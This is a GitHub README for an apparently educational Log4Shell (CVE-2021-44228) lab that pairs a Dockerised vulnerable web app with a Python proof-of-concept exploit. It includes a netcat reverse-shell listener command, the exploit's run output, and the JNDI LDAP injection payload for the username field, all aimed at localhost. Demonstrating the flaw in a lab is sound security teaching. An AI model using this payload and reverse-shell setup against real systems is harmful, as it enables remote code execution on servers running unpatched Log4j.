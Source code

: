 # log4shell
A demonstration for the recently found CVE-2021-44228 vulnerability. <br><br>
This new vulnerability was a zero-day in Log4j, a popular java logging framework, involving arbitrary code execution.
This repository contains a vulnerable web application which utalizes log4j and an exploit (PoC). 


Exploit (PoC)
----------------------
For the exploit, please use the python file:

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] ISEC3004 

[+] Exploit Success!
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
...

The python script sets up the HTTP and LDAP Server, in addition to creating the Payload. The Payload needs to be inserted into the vulnerable parameter (Username Field)

<br>


Vulnerable application
-----------------------

Use the following steps to initialize the docker:
```c
1: docker build -t log4shell .
2: docker run --network host log4shell
```
Once it is running, you can access it on localhost:8080

<br>

Installing Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Download the Java Version '8u20' from the link below:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>

**Note:** Please make sure to extract the jdk folder into the repository with the same name.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```
